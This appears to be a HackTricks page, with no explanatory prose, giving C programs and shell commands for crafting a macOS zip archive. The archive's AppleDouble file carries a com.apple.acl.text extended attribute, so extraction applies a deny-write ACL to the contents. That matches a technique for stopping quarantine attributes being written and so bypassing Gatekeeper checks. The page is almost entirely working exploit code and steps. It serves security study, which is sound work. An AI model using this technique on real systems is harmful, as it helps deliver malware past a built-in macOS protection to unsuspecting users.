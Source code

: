 # macOS xattr-acls extra stuff

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```

<details>

<summary>Code of get_acls</summary>

```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *filepath = argv[1];
    acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
    if (acl == NULL) {
        perror("acl_get_file");
        return 1;
    }

    char *acl_text = acl_to_text(acl, NULL);
    if (acl_text == NULL) {
        perror("acl_to_text");
        acl_free(acl);
        return 1;
    }

    printf("ACL for %s:\n%s\n", filepath, acl_text);

    // Convert acl_text to hexadecimal and print it
    printf("ACL in hex: ");
    for (char *c = acl_text; *c != '\0'; c++) {
        printf("\\x%02x", (unsigned char)*c);
    }
    printf("\n");

    acl_free(acl);
    acl_free(acl_text);
    return 0;
}
```

</details>

```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```

<details>

<summary>Code of set_xattr</summary>

```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
    ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        return;
    }

    char *buf = malloc(buflen);
    if (buf == NULL) {
        perror("malloc");
        return;
    }

    buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        free(buf);
        return;
    }

    printf("All current extended attributes for %s:\n", filepath);
    for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
        printf("%s: ", name);
        ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            continue;
        }

        char *value = malloc(valuelen + 1);
        if (value == NULL) {
            perror("malloc");
            continue;
        }

        valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            free(value);
            continue;
        }

        value[valuelen] = '\0';  // Null-terminate the value
        printf("%s\n", value);
        free(value);
    }

    free(buf);
}


int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
    const char *filepath = argv[1];

    int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
    if (result == 0) {
        printf("Extended attribute set successfully.\n\n");
    } else {
        perror("setxattr");
        return 1;
    }

    print_xattrs(filepath);

    return 0;
}
```

</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
{% endcode %}

```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
